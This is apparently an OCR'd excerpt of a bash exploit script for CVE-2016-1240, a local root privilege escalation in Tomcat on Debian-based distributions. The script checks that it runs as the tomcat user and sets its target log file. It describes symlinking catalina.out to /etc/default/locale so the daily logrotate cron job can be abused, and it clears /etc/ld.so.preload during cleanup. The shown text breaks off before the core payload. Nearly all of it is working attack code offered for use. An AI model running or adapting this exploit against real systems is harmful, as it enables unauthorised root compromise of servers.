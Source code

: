     echo -e "\n[+] Cleaning up..."
    rm -f $PRIVESCSRC
    rm -f $PRIVESCLIB
    rm -f $TOMCATLOG
    touch $TOMCATLOG
    if [ -f /etc/ld.so.preload ]; then
        echo -n > /etc/ld.so.preload 2>/dev/null
    fi
    echo -e "\n[+] Job done. Exiting with code $1 \n"
    exit $1
}
 
function ctrl_c() {
        echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
    cleanexit 0
}
 
#intro 
echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"
 
# Args
if [ $# -lt 1 ]; then
    echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
    exit 3
fi
if [ "$2" = "-deferred" ]; then
    mode="deferred"
else
    mode="active"
fi
 
# Priv check
echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
id | grep -q tomcat
if [ $? -ne 0 ]; then
    echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
    exit 3
fi
 
# Set target paths
TOMCATLOG="$1"
if [ ! -f $TOMCATLOG ]; then
    echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
    exit 3
fi
echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"
 
# [ Deferred exploitation ]
 
# Symlink the log file to /etc/default/locale file which gets executed daily on default
# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.

[1]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpuymxbej20px0b70tq.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpuz3z99j20ma0c43yz.jpg